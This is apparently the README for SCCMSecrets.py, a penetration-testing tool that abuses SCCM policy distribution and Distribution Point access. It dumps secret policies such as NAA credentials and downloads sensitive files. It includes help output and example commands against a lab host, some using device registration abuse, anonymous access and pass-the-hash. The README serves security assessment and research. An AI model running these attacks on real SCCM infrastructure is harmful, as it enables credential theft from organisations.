 # SCCMSecrets

SCCMSecrets.py is an SCCM policies exploitation tool. It goes beyond NAA credentials extraction, and aims to provide a comprehensive approach regarding SCCM policies exploitation. The tool can be executed from various levels of privileges, and will attempt to uncover potential misconfigurations related to policies distribution. More detail regarding the tool and its usage is available in the associated article:
https://www.synacktiv.com/publications/sccmsecretspy-exploiting-sccm-policies-distribution-for-credentials-harvesting-initial


Two subcommands are available: `policies` and `files`.

## Policies

This subcommand interacts with an SCCM **Management Point** in order to dump the contents of all secret policies (including NAA configuration, task sequences containing credentials, or collection variables). To do so, an approved SCCM device is needed, which can be obtained in three ways.
 - If you do not provide a machine account, SCCMSecrets will attempt to register a device and abuse automatic device approval. This is a (non-default) SCCM configuration which automatically grants the "Approved" state to new devices registered anonymously.
 - If you provide a machine account, SCCMSecrets will register a new device using the authenticated registration endpoint. By default, SCCM will grant the "Approved" state to devices registered through this endpoint.
 - You can also provide an existing device (`--use-existing-device`). This argument expects a directory containing the `guid.txt` file (device GUID) and the `key.pem` file (device private key). This can be a device created by a previous SCCMSecrets execution, or the one corresponding to a compromised legitimate SCCM client.

Note that SCCM policies are associated with collections. Registering a new device will place this device in default collections - thus, only secret policies from default collections will be retrieved. This is why impersonating a compromised legitimate SCCM client with the `--use-existing-device` can be interesting. Indeed, this legitimate client could be part of custom collections associated with additional secret policies.

Output will be placed in a subdirectory of the `loot` directory (format: `[timestamp]_policies`).

```
$ python3 SCCMSecrets.py policies --help
                                                                                                                                                                                                                                                                                          
 Usage: SCCMSecrets.py policies [OPTIONS]                                                                                                                                                                                                                                                 
                                                                                                                                                                                                                                                                                          
 Dump secret policies from an SCCM Management Point                                                                                                                                                                                                                                       
                                                                                                                                                                                                                                                                                          
╭─ Options ──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╮
│ *  --management-point     -mp      TEXT     The client's SCCM management point. Only necessary if the management point is not on the same machine as the distribution point [default: None] [required]                                                                                 │
│ *  --client-name          -cn      TEXT     [Optional] The name of the client that will be created in SCCM - or a random name if using an existing device [default: None] [required]                                                                                                   │
│    --machine-name         -u       TEXT     [Optional] A machine account name. If not provided, SCCMSecrets will try to exploit automatic device approval [default: None]                                                                                                              │
│    --machine-pass         -p       TEXT     [Optional] The password for the machine account [default: None]                                                                                                                                                                            │
│    --machine-hash         -H       TEXT     [Optional] The NT hash for the machine account [default: None]                                                                                                                                                                             │
│    --registration-sleep   -rs      INTEGER  [Optional] The amount of time, in seconds, that should be waited after registrating a new device. A few minutes is recommended so that the new device can be added to device collections (3 minutes by default, may need to be increased)  │
│                                             [default: 180]                                                                                                                                                                                                                             │
│    --use-existing-device  -d       TEXT     [Optional] This option can be used to re-run SCCMSecrets.py using a previously registered device ; or to impersonate a legitimate SCCM client. In both cases, it expects the path of a folder containing a guid.txt file (the SCCM device  │
│                                             GUID) and the key.pem file (the client's private key). Note that a client-name value must also be provided to SCCMSecrets (but does not have to match the one of the existing device)                                                      │
│                                             [default: None]                                                                                                                                                                                                                            │
│    --verbose              -v                [Optional] Enable verbose output                                                                                                                                                                                                           │
│    --help                 -h                Show this message and exit.                                                                                                                                                                                                                │
╰────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╯
```


## Files

This subcommand will index files stored on a **Distribution Point** and download interesting ones. SCCMSecrets will first attempt to identify if anonymous access is enabled (non-default). If this is the case, files can be indexed and downloaded without authentication. Otherwise, domain credentials will be needed.

It is possible to download files by extension. SCCMSecrets will index files of all packages hosted on the Distribution Point (resulting in an `index.txt` file with the Unix `tree` format), and it will download files with specified extensions. When providing an empty list of extensions, only file indexing will be performed.
In both cases, from the produced index file, it is possible to use the `--urls` flag to download specific interesting files (without reindexing).

Output will be placed in a subdirectory of the `loot` directory (format: `[timestamp]_files`).

```
$ python3 SCCMSecrets.py files --help
                                                                                                                                                                                                                                                                                          
 Usage: SCCMSecrets.py files [OPTIONS]                                                                                                                                                                                                                                                    
                                                                                                                                                                                                                                                                                          
 Dump interesting files from an SCCM Distribution Point                                                                                                                                                                                                                                   
                                                                                                                                                                                                                                                                                          
╭─ Options ──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╮
│ *  --distribution-point  -dp      TEXT     An SCCM distribution point [default: None] [required]                                                                                                                                                                                       │
│    --username            -u       TEXT     [Optional] A username for a domain account. If no account is provided, SCCMSecrets will try to exploit anonymous DP access [default: None]                                                                                                  │
│    --password            -p       TEXT     [Optional] The password for the domain account [default: None]                                                                                                                                                                              │
│    --hash                -H       TEXT     [Optional] The NT hash for the domain account (e.g. A4F49C406510BDCAB6824EE7C30FD852) [default: None]                                                                                                                                       │
│    --extensions          -e       TEXT     [Optional] Comma-separated list of extension that will determine which files will be downloaded when retrieving packages scripts. Provide an empty string to not download anything, and only index files                                    │
│                                            [default: .ps1, .bat, .xml, .txt, .pfx]                                                                                                                                                                                                     │
│    --urls                -f       TEXT     [Optional] A file containing a list of URLs (one per line) that should be downloaded from the Distribution Point. This is useful if you already indexed files and do not want to download by extension, but rather specific known files     │
│                                            [default: None]                                                                                                                                                                                                                             │
│    --max-recursion       -r       INTEGER  [Optional] The maximum recursion depth when indexing files from the Distribution Point [default: 10]                                                                                                                                        │
│    --verbose             -v                [Optional] Enable verbose output                                                                                                                                                                                                            │
│    --help                -h                Show this message and exit.                                                                                                                                                                                                                 │
╰────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╯
```



# Installation

You can install SCCMSecrets.py by cloning the repository and installing the dependencies.
```
$ git clone https://github.com/synacktiv/SCCMSecrets
$ cd SCCMSecrets
$ python3 -m venv .venv && source .venv/bin/activate
$ python3 -m pip install -r requirements.txt
```


# Examples

Below are some example commands.

### Policies

Retrieve secret policies without providing a machine account. This will attempt to exploit the automatic device approval misconfiguration (non-default configuration)
```
$ python3 SCCMSecrets.py policies -mp http://mecm.sccm.lab -cn 'test'
```

Retrieve secret policies by providing a machine account. This will work in default SCCM configurations
```
$ python3 SCCMSecrets.py policies -mp http://mecm.sccm.lab -u 'azule$' -p 'Password123!' -cn 'test'
```

Retrieve secret policies of an already existing device. The `compromised_device` folder contains a `guid.txt` and `key.pem` file.
```
$ python3 SCCMSecrets.py policies -mp http://mecm.sccm.lab --use-existing-device compromised_device/
```


### Files

Retrieve Distribution point files without providing credentials. This will attempt to exploit anonymous DP access (non-default configuration)
```
$ python3 SCCMSecrets files -dp http://mecm.sccm.lab
```

Retrieve Distribution point files with credentials. This will work in default SCCM configurations
```
$ python3 SCCMSecrets.py files -dp http://mecm.sccm.lab -u 'dave' -p 'dragon'
```

Retrieve files wih a specific list of extensions. Authenticate with the machine account's hash
```
$ python3 SCCMSecrets.py files -dp http://mecm.sccm.lab -u 'dave' -H 'F7EB9C06FAFAA23C4BCF22BA6781C1E2' --extensions '.txt,.xml,.ps1,.pfx,.ini,.conf'
```

Retrieve specific files from the Distribution Point by providing a list of URLs (1 by line)
```
python3 SCCMSecrets.py files -dp http://mecm.sccm.lab -u 'dave' -p 'dragon' --urls to_download.lst
```